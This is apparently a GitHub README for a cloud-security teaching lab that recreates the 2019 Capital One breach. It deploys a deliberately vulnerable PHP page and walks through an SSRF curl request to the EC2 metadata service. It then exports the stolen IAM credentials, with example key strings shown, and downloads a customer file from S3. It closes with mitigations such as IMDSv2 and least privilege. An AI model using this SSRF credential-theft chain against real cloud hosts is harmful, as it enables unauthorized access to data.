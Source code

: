 # 2019 AWS Data Breach Demo Lab Guide

## 🌐 Overview

This lab demonstrates an attack based on the SSRF (Server-Side Request Forgery) vulnerability, which can be used to steal AWS credentials from an Amazon EC2 instance and further access sensitive data in S3 buckets. The goal is to understand the potential impact of SSRF vulnerabilities in cloud environments and explore best practices for securing cloud infrastructure.

## 📖 The Story

In this lab, we simulate a real-world scenario, 2019 Capital One data breach, where an attacker exploits a misconfigured web application on an EC2 instance. The vulnerable application allows the attacker to access the EC2 metadata service, retrieve IAM credentials, and subsequently gain unauthorized access to an S3 bucket. By performing this lab, we learn how simple misconfigurations can lead to serious security breaches in cloud environments.

![The Story](images/story.png)

## 🛠️ Lab Setup

### 🔧 Prerequisites

- An AWS user account with appropriate permissions.
- IAM user with permissions to create and manage resources.
- An EC2 instance running on AWS.
- A VPC to host the EC2 instance.
- An S3 bucket to store and access data.
- The EC2 instance must be accessible via the public internet.

![Lab Setup](images/lab.png)

### 📝 Lab Setup Steps

1. **📂 Clone the Repository**: Clone the repository that contains the necessary configuration files.
   
   ```sh
   git clone https://github.com/jasonYuRong/2019-AWS-Data-Breach-Demo.git
   ```

2. **📁 Navigate to the Directory**: Change into the cloned repository directory.
   
   ```sh
   cd 2019-AWS-Data-Breach-Demo
   ```

3. **🚀 Apply Terraform Configuration**: Use Terraform to set up the EC2 instance with the required configurations. This will automatically deploy Apache HTTP server and the vulnerable `ssrf.php` file.
   
   ```sh
   terraform apply
   ```

   Follow the prompts to approve the infrastructure changes. Terraform will create the EC2 instance along with the necessary configurations, including deploying Apache and the `ssrf.php` script.

> 🌿 What is Terraform?
Terraform is an open-source infrastructure as code (IaC) tool created by HashiCorp. It allows you to define and provision data center infrastructure using a high-level configuration language. Terraform can manage resources across a wide range of providers, such as AWS, Azure, and Google Cloud, making it a powerful tool for automating cloud infrastructure setup and scaling. In this lab, we use Terraform to quickly deploy the required AWS infrastructure, including EC2, VPC, S3 and IAM.

![Terraform](images/tf.png)

## 🎯 Goal

The main goal of this lab is to gain unauthorized access to the S3 bucket by exploiting the SSRF vulnerability. Specifically, you will access the EC2 metadata service, obtain temporary AWS credentials, and use those credentials to retrieve an object from the S3 bucket.

## 💡 Solution & Walkthrough

### Step 1: 🔍 Set Up the SSRF Vulnerability Environment

The Terraform script has already set up Apache HTTP server and deployed a vulnerable PHP file `ssrf.php` on your EC2 instance. This file allows an attacker to exploit SSRF to access resources that should not be accessible externally, such as the EC2 metadata service.

### Step 2: 🚦 Launch an EC2 Instance and Ensure Accessibility

Make sure you have an AWS EC2 instance running with the following attributes:

- **Public IP**: A public IP address is assigned so it can be accessed from the internet.
- **IAM Role**: Configured with an IAM role (`ec2_role`) that has permissions to access S3 for the demo.
- Ensure that the HTTP server is running and accessible via the public IP of your EC2 instance.

### Step 3: 🚨 Exploit the SSRF Vulnerability to Access EC2 Metadata

Now you can exploit the SSRF vulnerability to get the IAM role credentials from the EC2 metadata service.

Run the following `curl` command:

```sh
curl http://<EC2_public_ip>/ssrf.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_role
```

- `<EC2_public_ip>`: Replace with your EC2 public IP.
- `169.254.169.254`: This is the IP address of the AWS EC2 metadata service, which is only accessible from within the instance.

### Step 4: 🗝️ Extract AWS Credentials and Set Environment Variables

After running the above `curl` command, you should see the temporary credentials for the IAM role, which include:
- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`
- `AWS_SESSION_TOKEN`

Next, set these credentials as environment variables to use AWS CLI for further operations. For example:

```sh
export AWS_ACCESS_KEY_ID="ASIAZDZTCACO7BAZ7KEE"
export AWS_SECRET_ACCESS_KEY="S7z6biyOscdzDEVuLLLXa0GwHYRdN89ivkMy/4Dz"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEFYaCXV..."
```

![export](images/export.png)

### Step 5: 📥 Use AWS CLI to Access the S3 Bucket

Using the credentials set in the previous step, you can now use AWS CLI to access the specified S3 bucket.

For example, download a file from the S3 bucket:

```sh
aws s3 cp s3://jhu-en-650-603/customer.json - | cat
```

![export](images/s3.png)

This command downloads the `customer.json` file from the S3 bucket and displays its contents in the terminal.

### 🎉 Lab Completion

At this point, we have successfully exploited an SSRF vulnerability in the EC2 instance to access the metadata service and used the retrieved credentials to access sensitive data in S3.

## 🔒 Reflection and Security Recommendations

1. **🚫 Restrict Metadata Access**:
   - Use `Instance Metadata Service v2 (IMDSv2)` to enhance security and prevent simple HTTP requests from accessing metadata.
   - In the instance's Terraform configuration, enforce IMDSv2 by setting:
     ```hcl
     metadata_options {
       http_tokens = "required"
       http_put_response_hop_limit = 1
     }
     ```

2. **🔑 Principle of Least Privilege**:
   - The IAM role assigned to the EC2 instance should follow the principle of least privilege, granting only the necessary S3 permissions to avoid over-privileged access.

3. **🛡️ Web Application Firewall (WAF)**:
   - Use a WAF to prevent SSRF attacks. WAFs can effectively block malicious requests to your web application.

4. **📝 Code Auditing and Input Validation**:
   - Ensure proper validation of user inputs to avoid directly using user input as part of a URL request.




## 📚 References

- [AWS Security Best Practices](https://docs.aws.amazon.com/general/latest/gr/aws-security-best-practices.html)
- [Understanding and Mitigating SSRF Vulnerabilities](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [Terraform Documentation](https://www.terraform.io/docs/index.html)
- [AWS CLI Command Reference](https://docs.aws.amazon.com/cli/latest/reference/)
- [Instance Metadata Service (IMDSv2)](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- [Web Application Firewall (WAF)](https://aws.amazon.com/waf/)

